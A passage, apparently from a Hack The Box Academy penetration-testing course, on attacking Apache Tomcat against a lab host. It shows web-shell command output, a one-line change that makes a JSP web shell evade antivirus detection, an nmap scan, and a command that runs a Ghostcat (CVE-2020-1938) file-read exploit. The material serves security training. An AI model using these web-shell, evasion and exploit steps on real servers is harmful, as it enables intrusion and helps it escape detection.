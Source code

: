 
id

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
</code></pre>
<p>The <a href="https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/">multi/http/tomcat_mgr_upload</a> Metasploit module can be used to automate the process shown above, but we'll leave this as an exercise for the reader.</p>
<p><a href="https://github.com/SecurityRiskAdvisors/cmd.jsp">This</a> JSP web shell is very lightweight (under 1kb) and utilizes a <a href="https://www.freecodecamp.org/news/what-are-bookmarklets/">Bookmarklet</a> or browser bookmark to execute the JavaScript needed for the functionality of the web shell and user interface. Without it, browsing to an uploaded <code>cmd.jsp</code> would render nothing. This is an excellent option to minimize our footprint and possibly evade detections for standard JSP web shells (though the JSP code may need to be modified a bit).</p>
<p>The web shell as is only gets detected by 2/58 anti-virus vendors.</p>
<p><img alt="image" src="https://academy.hackthebox.com/storage/modules/113/vt2.png"/></p>
<p>A simple change such as changing:</p>
<pre><code class="language-java">FileOutputStream(f);stream.write(m);o="Uploaded:
</code></pre>
<p>to:</p>
<pre><code class="language-java">FileOutputStream(f);stream.write(m);o="uPlOaDeD:
</code></pre>
<p>results in 0/58 security vendors flagging the <code>cmd.jsp</code> file as malicious at the time of writing.</p>
<hr/>
<h2>A Quick Note on Web shells</h2>
<p>When we upload web shells (especially on externals), we want to prevent unauthorized access. We should take certain measures such as a randomized file name (i.e., MD5 hash), limiting access to our source IP address, and even password protecting it. We don't want an attacker to come across our web shell and leverage it to gain their own foothold.</p>
<hr/>
<h2>CVE-2020-1938 : Ghostcat</h2>
<p>Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938">Ghostcat</a>. All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable. This vulnerability was caused by a misconfiguration in the AJP protocol used by Tomcat. AJP stands for Apache Jserv Protocol, which is a binary protocol used to proxy requests. This is typically used in proxying requests to application servers behind the front-end web servers.</p>
<p>The AJP service is usually running at port 8009 on a Tomcat server. This can be checked with a targeted Nmap scan.</p>
<pre><code class="language-shell-session">[!bash!]$ nmap -sV -p 8009,8080 app-dev.inlanefreight.local

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
</code></pre>
<p>The above scan confirms that ports 8080 and 8009 are open. The PoC code for the vulnerability can be found <a href="https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi">here</a>. Download the script and save it locally. The exploit can only read files and folders within the web apps folder, which means that files like <code>/etc/passwd</code> can’t be accessed. Let’s attempt to access the web.xml.</p>
<pre><code class="language-shell-session">[!bash!]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 
